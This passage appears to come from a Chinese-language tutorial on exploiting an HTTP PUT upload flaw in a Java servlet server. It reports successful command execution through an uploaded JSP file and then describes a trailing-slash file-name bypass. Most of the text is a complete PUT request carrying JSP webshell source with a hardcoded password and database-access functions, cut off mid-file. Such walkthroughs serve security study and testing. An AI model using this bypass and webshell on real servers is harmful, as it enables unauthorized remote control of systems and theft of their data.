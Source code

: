 可以看到返回响应码201，说明我们上传成功了。我们访问我们jsp脚本试试：

![image](img/474313d3d1c588a43a1c516ff9bc09ad.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet 来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

```
PUT /webshell.jsp/ HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 6239  

<%@page import=“[java.io](http://java.io).*,java.util.*,[java.net](http://java.net).*,java.sql.*,java.text.*”%>

<%!

String Pwd = “hetian”;

String cs = “UTF-8”;

String EC(String s) throws Exception {

return new String(s.getBytes(“ISO-8859-1”),cs);

}

Connection GC(String s) throws Exception {

String[] x = s.trim().split(“choraheiheihei”);

Class.forName(x[0].trim());

if(x[1].indexOf(“jdbc:oracle”)!=-1){

return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);

}else{

Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);

if (x.length > 4) {

c.setCatalog(x[4]);

}

return c;

}

}
```